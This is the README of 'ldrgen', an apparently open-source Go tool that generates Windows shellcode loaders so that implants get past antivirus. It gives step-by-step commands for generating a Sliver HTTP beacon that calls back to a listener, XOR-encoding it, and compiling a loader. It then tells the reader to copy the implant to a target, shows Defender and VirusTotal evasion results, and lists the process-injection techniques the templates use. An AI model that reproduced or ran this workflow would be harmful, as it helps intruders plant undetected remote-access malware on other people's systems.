 # ldrgen

ldrgen is a golang cli tool to generate shellcode loaders

## Usage
```
go build .
./ldrgen --help
```

## Why?
When you want to drop your beacon to disk but AV keeps nuking you, and you're too lazy to write a loader

## Usage 
```bash
git clone https://github.com/gatariee/ldrgen
cd ./ldrgen
go build -o ldr .
./ldr --help
```

## Example (calc.exe)
```bash
./ldr -bin ./dev/calc_shellcode/calc.bin -out ./output -ldr CreateThread_Xor -enc xor -key SuperSecureKey1234 --cleanup
cd output && make x64
```

## Example (sliver beacon)

### Sliver Shellcode Generation
```bash
sliver > generate beacon --http <listener_ip> --format shellcode
```
![shellcode_gen](./assets/126b19d26d4e3af6573a5f5bc2802f84.png)

### Loader Generation
```bash
./ldr -bin SEMANTIC_CUPOLA.bin -out output -ldr CreateThread_Xor -enc xor -key aahduiahsdgiasudhagsdashdasgjdhka --cleanup
```
![ldr_gen_1](./assets/b48b971be9df335205f1d3f7a9c768d4.png)
- binfile -> **SEMANTIC_CUPOLA.bin**
- output to -> **./output**
- use technique -> **CreateThread**
- with encryption: **xor**
- with key: **aahduiahsdgiasudhagsdashdasgjdhka**
- delete tempfiles after compilation: **true**

### Compilation
- compile for x64 windows, alternatively compile for x86 with `make x86` (make sure your shellcode arch is the same as the loader arch)
```bash
cd output && make x64
```
![ldr_gen_2](./assets/da7bf205f86324a0a7275d57760fb7db.png)

![ldr_gen_3](./assets/6b69c6bb7c677ff7b9ea7f2cd6ea1692.png)

### Beacon
Copy `implant_x64.exe` to your target, see: [here](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/file-transfer).

If you're worried about detections, run your implant through AV before deploying it to your target. (avoid VT if you care about getting sigged, but I'll use it cos I'm lazy.)

![vt](./assets/80f44df4910f31c74259ccfbddc7f97d.png)
*https://www.virustotal.com/gui/file/a88b7bee6e5dab73f158093d9f4ec9e556bd6984689efac44bafe3f600020b66?nocache=1*

This should be fine for Windows Defender.
![windef](./assets/9a6355fc57ae8c9afb8bf9f73bc8e71a.png)

### Beacon Callback
![sliver_callback](./assets/207cde0dd0375bfa437d937ca7414e2b.png)
![sliver_rubeus](./assets/619e6ee387d2bfe44f4927f8f53054a1.png)

### OPSEC
- This tool **helps** with **generating loaders** using templates, it **does not** help with **OPSEC**. 
- Evasive features of the loader is up to the operator to implement.

## Loader Tokens
Currently available injection tokens:
- [Inline.c](./templates/Source/Inline.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, execute inline with `( (void ( * )())exec )();`
- [Inline_Xor.c](./templates/Source/Inline_Xor.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, encrypt shellcode via [Xor.c](./templates/Source/Xor.c), execute inline with `( (void ( * )())exec )();`
- [CreateRemoteThread.c](./templates/Source/CreateRemoteThread.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READWRITE*, `WriteProcessMemory` and `CreateRemoteThread` to execute shellcode
- [CreateRemoteThreadRX.c](./templates/Source/CreateRemoteThreadRX.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READ*, `WriteProcessMemory`, `VirtualProtectEx` with *PAGE_EXECUTE_READ* and `CreateRemoteThread` to execute shellcode

## Shellcode Templates
These are globally accessible variables via loader templates, and will be replaced with the appropriate values when generating the loader source code.
1. [Shellcode.c](./templates/Source/Shellcode.c)
    - `${SHELLCODE}` -> shellcode in the format: { 0x00, 0x00, 0x00, 0x00, ... }
    - `${SHELLCODE_SIZE}` -> shellcode length in bytes
2. [Shellcode.h](./templates/Include/Shellcode.h)
    - `extern unsigned char shellcode[];`
    - `extern size_t shellcode_size;`